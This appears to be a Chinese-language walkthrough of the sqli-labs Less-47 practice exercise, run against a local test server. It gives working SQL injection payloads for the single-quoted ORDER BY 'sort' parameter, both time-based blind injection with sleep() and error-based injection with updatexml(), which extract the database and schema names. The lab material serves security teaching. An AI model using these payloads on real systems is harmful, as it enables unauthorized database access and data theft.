

# Less-47
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
我们直接看源码中的sql语句   SELECT * FROM users ORDER BY ‘1’   应该是只有对于sort值得处理不同，加了单引号
按照less46中的方法，我们进行测试
法一： 延时注入
1. http://127.0.0.1/sqli/Less-47/?sort=3’ and  if((  length(database())=1  ),1,sleep(5)) --+ 判断数据库长度
2. http://127.0.0.1/sqli/Less-47/?sort=3’  and  if ( left( (select schema_name from information_schema.schemata limit 0,1) , 1) > ‘a’     ,1,   sleep(5)) --+ 判断数据库中第一个库的第一位的值是否大于a
法二： 报错注入
1. http://127.0.0.1/sqli/Less-47/?sort=3’ and  updatexml( 1, concat( 0x7e,  database()) ,  1) --+ 爆出当前使用数据库名称
2. http://127.0.0.1/sqli/Less-47/?sort=3’ and  updatexml(1, concat(0x7e,  (  select schema_name from information_schema.schemata limit 0,1)   )       ,1) --+ 爆出数据库中的第一个值，可以使用遍历的思想去继续操作下去
当然，本关中肯定还有其他的方法和思想，大家可以自行进行搜寻和尝试。我这个只不过是最简单的一种